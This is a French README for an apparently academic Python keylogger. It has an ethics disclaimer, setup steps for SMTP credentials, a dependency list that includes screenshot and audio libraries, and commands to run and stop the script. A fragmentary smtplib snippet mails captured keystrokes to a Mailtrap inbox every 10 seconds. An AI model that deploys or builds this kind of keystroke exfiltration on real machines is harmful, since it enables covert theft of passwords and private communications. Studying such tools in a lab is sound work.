

**DISCLAIMER**

**Ce projet a ete realise a des fins academiques. L'utilisation de logiciels tels qu'un keylogger doit toujours respecter les lois et l ethique.**

**Ne pas utiliser ce script a des fins d'enregistrement de frappes sur l'ordinateur d'autrui (ou sur le votre en ciblant un autre utilisateur) sans le consentement explicite de ce dernier.**

**Ne testez jamais un keylogger sur une machine ou vous n avez pas la permission explicite de le faire.**

**Veuillez utilisez ce script dans un environnement securise (par exemple, une machine virtuelle ou un ordinateur de test), controle et legalement acceptable.**

**Utilisez un compte SMTP dedie et ne partagez jamais vos informations personnelles.**

**Ce script permet d'enregistrer les frappes de clavier. Ces informations recueillies sont envoyees a une boite mail toutes les 10 secondes.**

**Etape 1 : Definir les identifiants SMTP**

**Le protocole SMTP (Simple Mail Transfer Protocol) est utilise pour envoyer des e-mails.**
**Un moyen mnemotechnique de retenir sa definition est : SMTP <=> Send mail to people**

**La premiere etape va donc etre de creer un compte mail dedie a la reception des informations enregistrees avec le keylogger.**

**Nous avons fait le choix du systeme de messagerie "Mail trap". Apres avoir cree un compte avec des donnees jetables, nous devons configurer les identifiants SMTP dans le script.**

**Ouvrez le fichier qui se nomme "Keylogger.py" dans un editeur de texte comme VSCode ou Notepad++.**

**Cherchez les lignes o "SMTP_USERNAME" et "SMTP_PASSWORD" sont mentionnes.**

**Remplacez-les par vos propres informations :**

**Dans cette section, nous allons definir l'adresse mail ainsi que le mot de passe mail :**

**finally:**
    **EMAIL_ADDRESS = "xxxxxx" #Remplacer par le "username" de Mailtrap**
    **EMAIL_PASSWORD = "xxxxxx" #Remplacer par le "password" de Mailtrap**

**Dans cette section, nous allons entrer le numero du port SMTP, nous permettant d'envoyer les informations enregistres vers la boite de reception.**

m += message
	**with smtplib.SMTP("sandbox.smtp.mailtrap.io", 25) as server: # Mettre le numero de port defini dans les instructions Mailtrap**
        **server.login(email, password)**
        **server.sendmail(sender, receiver, message)**

Ainsi, le port numero 25 est defini. 

**Etape 2 : Installer les dependances necessaires**

**Depuis le terminal, on va lancer la commande pip install -r requirements.txt**

**Cette commande permet d'installer toutes les bibliotheques listees dans le fichier requirements.txt**

**Ce fichier contient les lignes suivantes :**

**pynput==1.7.3 : controler et surveiller le clavier et la souris**
**pyscreenshot==3.1 : prendre des captures d'ecran**
**sounddevice==0.4.3 : gerer l'enregistrement de sons**
**Pillow==9.3.0 : bibliotheque de traitement d'images**

**Etape 3 : Executer le keylogger**

**Toujours depuis le terminal, on lance le script depuis le fichier keylogger.py***

**On lance la commande python keylogger.py**

**Le script commence alors a enregistrer les frappes de claviers**

**Les donnees sont envoyees toutes les 10 secondes dans la boite de reception.**

**En cas d'erreur :**

**Il pourrait y avoir une probleme avec le paquet pyscreenshot lors de son installation**

**L'erreur pourrait par exemple liee a une incompatibilite entre la version de pyscreenshot demandee (0.5.1) et votre environnement Python**

**Pour resoudre ce probleme**

**Modifier la ligne pyscreenshot==0.5.1**

**par**

**pyscreenshot==[derniere version en vigueur]**

**A la date du 15/11/2024, la derniere version utilisee pour pyscreenshot est : 3.1 ***

**Si vous rencontrez encore des erreurs, ajustez les versions jusqu'a ce que toutes soient compatibles avec votre version de Python**

**Vous pourriez par exemple avoir des problemes d'incompatibilite entre votre version de Python et la version de Pillow***

**Correspondances pillow et python : site internet : https://pillow.readthedocs.io/en/stable/installation/python-support.html**

**Pour arreter le keylogger :**

**Il fonctionne en arriere-plan comme un processus. Afin de l'arreter, entrer dans le terminal : Ctrl + C**

**Si cela ne fonctionne pas, entrer dans le terminal :**

**tasklist | findstr python**

**Cela permettra d'afficher tous les processus Python qui sont actifs. Il suffit ensuite d'identifier le PID associe au script.**

**Pour l'arreter, entrer dans le terminal :**

**taskkill /PID [PID du script] /F**

**Enfin, si le keylogger enregistre les frappes de clavier dans un fichier temporaire, supprimer ce fichier.**
